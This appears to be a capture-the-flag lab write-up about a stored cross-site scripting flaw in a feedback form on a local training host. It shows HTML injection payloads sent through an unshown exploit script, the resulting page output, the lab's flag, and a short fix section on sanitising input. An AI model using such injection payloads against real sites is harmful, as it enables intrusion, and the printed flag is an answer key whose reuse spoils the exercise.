 # Stored XSS feedback

## Exploitation

On the homepage, on the bottom, there is a button **Feedback**. On the page (http://192.168.1.48/?page=feedback), there is a form to write a feedback. Let's try a stored XSS

```
$ ./exploit.py '<script>alert(1);</script>'
...
   <td>
    Name : alert(1)
   </td>
...
```

With a `<script>`, the html was escaped, try with raw html

```
$ ./exploit.py '<div>coucou</div>'
...
       <td>
        Name :
        <div>
         coucou
        </div>
       </td>
...
```

Worked with raw html on the "name" input. But no flag

After some random test, it worked with the name "a". Wtf?

```
$ ./exploit.py '<div>a</div>'
...
    <center>
     <h2 style="margin-top:50px;">
      The flag is : 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
     </h2>
     <br/>
     <img alt="" height="200px" src="images/win.png" width="200px"/>
    </center>
...
```

## How to fix it?

To escape the stored XSS, you have to sanitize all the input data. Like a SQL injection, never trust user data. In all languages, there is functions to do this. For exemple in php : `htmlspecialchars`

A better way is to use frameworks for your website and forms. The good framework do this job for you

## References

https://owasp.org/www-community/attacks/xss/


